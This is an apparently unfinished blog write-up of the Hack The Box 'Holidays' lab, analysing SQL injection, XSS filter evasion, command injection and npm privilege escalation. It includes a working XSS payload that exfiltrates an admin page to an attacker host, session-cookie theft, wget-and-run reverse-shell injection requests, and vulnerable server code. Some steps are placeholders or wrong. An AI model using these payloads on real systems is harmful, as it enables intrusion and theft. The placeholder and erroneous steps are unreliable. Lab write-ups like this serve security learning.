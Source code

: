 ```yaml
---
layout: post
title:  "Hack The Box - Holidays - Source Code Analysis"
date:   2021-10-17 13:00:10 +0200
tags: ["Hack The Box","OSWE"]
---
```


# Introduction
The hack the box machine "Holidays is a hard machine with requires knowledge in the areas of User-Agent filters, SQL injections, XSS filter evasion, command injection and NPM packages.

![HolidayCard](/assets/2021-10-17-HTB-Holidays-Source-Code-Analysis/card.png)

In this post, we study the coding mistakes behind the vulnerabilites and how to remediate them.

The next two sections covers expliotation process and a code analysis to identify the vulnerabilites. Feel free to skip the next section if you already know how to exploit this Hack The Box machine.

# Overview of Exploitation
The first step

Capture login post request to http://10.10.10.25:8000/login in burp, change user-agent to “Linux” and press “copy to file” > linux.req              #Routing is different depending on user-agent
sqlmap -r linux.req --level=5 --risk=3 -T users --dump -threads 10
We get RickA:fdc8cd4cff2c19e0d1022e78481ddf36:nevergonnagiveyouup           (cracked with crackstation)
Log in to http://10.10.10.25:8000/login

genPayload.py
{% highlight python linenos %}
payload = """document.write('<script src="http://10.10.14.25/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
print('<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">')
{% endhighlight %}

x.js
{% highlight Javascript linenos %}
req1 = new XMLHttpRequest();
req1.open("GET","http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65",false);
req1.send();
req2 = new XMLHttpRequest();
req2.open("GET","http://10.10.14.25/leak?x="+btoa(req1.responseText),false);
req2.send();
{% endhighlight %}

Sudo python3 -m 80
python3 genPayload.py | xclip -selection clipboard
Post a comment with the clipboard content
Wait 1 minutes. Then, copy the base64 content from the web server output and put in x.b64
cat x.b64 | base64 -d > x.html
Get the cookie value from x.html    (connect.sid&#x3D;s%3A0c2b6ab0-2905-11ec-93c0-9b5646fb6973.5woc5mpM%2F9dn5RN9MmvdvDeOtDts1f423a6mkfALt70)
Add the cookie in the browser and go to http://10.10.10.25:8000/admin

sudo rlwrap nc -lvnp 443
nano rs
GET /admin/export?table=x%26wget+168431129/rs
GET /admin/export?table=x%26bash+rs

The privilege escalation can be performed by abusing sudo rights on npm. As can be seen by using `sudo -l`, we can install arbitrary NPM packages with root privileges. This could be dangerous as it is possible install an NPM package which runs code before the installation process begins. By x, it is possible to run arbitrary code. This can be done by creating a custom node package module. For this, we can use the template (rimrafall github) which contains a folder named "rimrafall" with a package.JSON file. We modify the package.json file to look as below and leave the index.js file as it is.


Note that preinstall is executed when we run npm install. In fact these scripts are executed:
https://docs.npmjs.com/cli/v7/using-npm/scripts#npm-install

(package.json)

Package.json 
https://docs.npmjs.com/cli/v7/configuring-npm/package-json#name


(index.js)

Next, we start a listner on a free port, in this example we chose port 9999.

sudo npm i rimrafall to attempt to install the custom node module as a root user, triggering the execution of our reverse shell payload.



# Code analysis
{:refdef: style="text-align: center;"}
![files](/assets/2021-10-17-HTB-Holidays-Source-Code-Analysis/files.png)
{: refdef}

## User-Agent Filtering
{% highlight Javascript linenos %}

{% endhighlight %}


## SQL Injection Vulnerability

{% highlight Javascript linenos %}
var db = new sqlite3.Database('hex.db');
{% endhighlight %}

{% highlight Javascript linenos %}

module.exports = function(callback) {
  async.waterfall([
    function(cb) {
      db.run('PRAGMA journal_mode = OFF;', cb);
    },
    function(cb) {
      db.run('SELECT * FROM users', function(err) {
        if (!err) return cb('Already setup');

        return cb();
      });
    },
{% endhighlight %}

Note line x, where the req.body.username parameter is placed into the query string. This query parameter is then sent to the the database by using the `scope.db.get` function at line x.

`SELECT id, username, password, active FROM users WHERE (active=1 AND (username = "[username]"))` where [username] is the username supplied in the body of the request

If we let [username] be `")) -- sleep(1)`, we can force a delay to verify that we have remote code execution on the machine. This works since the query becomes the query below. Note that any characters after the comment character `--` won't be interpreted as part of the query. At this point, data can be exfiltrated using blind SQLI attacks. TODO: Check

`SELECT id, username, password, active FROM users WHERE (active=1 AND (username = " ")) -- "))`

{% highlight Javascript linenos %}
scope.router.post('/login', function(req, res) {
  if (req.body.username == 'admin' && req.body.password == 'myvoiceismypassport') {
    req.session.username = 'admin';
    req.session.admin = true;
    res.redirect('/admin');
  } else {
    var query = 'SELECT id, username, password, active FROM users WHERE (active=1 AND (username = "' + req.body.username +'"))';
    var queryStart = +new Date();

    scope.db.get(query, function(err, row) {
      var queryEnd = +new Date();
      var queryTime = queryEnd - queryStart;
      if (err) return res.render('login.hbs', { internalError: err, publicError: 'Error Occurred', query: query, queryTime: queryTime });
      if (!row) return res.render('login.hbs', { publicError: 'Invalid User', query: query, queryTime: queryTime });
      if (row.password == crypto.createHash('md5').update(req.body.password).digest('hex')) {
        req.session.username = row.username;
        res.redirect('/agent');
      } else {
        res.render('login.hbs', { username: row.username, publicError: 'Incorrect Password', query: query, queryTime: queryTime });
      }
    });
  }
});
{% endhighlight %}

## XSS Vulnerability
{% highlight Javascript linenos %}
var xss = require('xss');
var xssFilter = new xss.FilterXSS({
  whiteList: {
    img: ['src']
  },
  onTagAttr: function (tag, name, value, isWhiteAttr) {
    if (name === 'src' && isWhiteAttr) return name + '=' + value.replace(/["' ]/g, '') + '';
    return null;
  }
});
{% endhighlight %}

## Command Injection Vulnerability

The `scope.router.get` function is used to define an endpoint. In this particular case, line 1 states that the endpoint "/admin/exports" can be reached by get requests and that any such requests should be handled by the function which is defined on line 2 to 13.

The regex `/[^a-z0-9& \/]/g` matches everything that is not an alphanumeric character, the `&` character, the space character and the forward slash `/` character. Anything that is matched will be subsituted for the empty string `''`. In other words, any character outside of these characters, will be removed. In addition, the server will respond with a "500 Internal server error" error message. 

Once the characters have passed the filter, they go into x

`sqlite3 hex.db SELECT * FROM [userInput]` where [userInput] are the characters the user submitted. This assumes that all characters passed the white list

`sqlite3 hex.db SELECT * FROM table && sleep 2`

From file "./app/setup/router.js"
{% highlight Javascript linenos %}
scope.router.get('/admin/export', function(req, res) {//Command injection location
  console.log('Admin Export', req.query)
  if (!req.session.admin) return res.redirect('/login');
  var filteredTable = req.query.table.replace(/[^a-z0-9& \/]/g, '')//Filter
  if (filteredTable != req.query.table) return res.status(500).send('Invalid table name - only characters in the range of [a-z0-9&\\s\\/] are allowed');

  exec('sqlite3 hex.db SELECT\\ *\\ FROM\\ ' + filteredTable, function(err, stdout, stderr) {
    res.header('Cache-Control', 'private, no-cache, no-store, must-revalidate');
    res.header('Expires', '-1');
    res.header('Pragma', 'no-cache');
    res.attachment('export-' + req.query.table + '-' + (+new Date()));
    res.send(stdout);
  });
});
{% endhighlight %}


Definition of the `exec` function.

{% highlight Javascript linenos %}
var exec = require('child_process').exec;
{% endhighlight %}

<!---
# Furher Readingo
Checkout: automating hackthebox holidays
-->
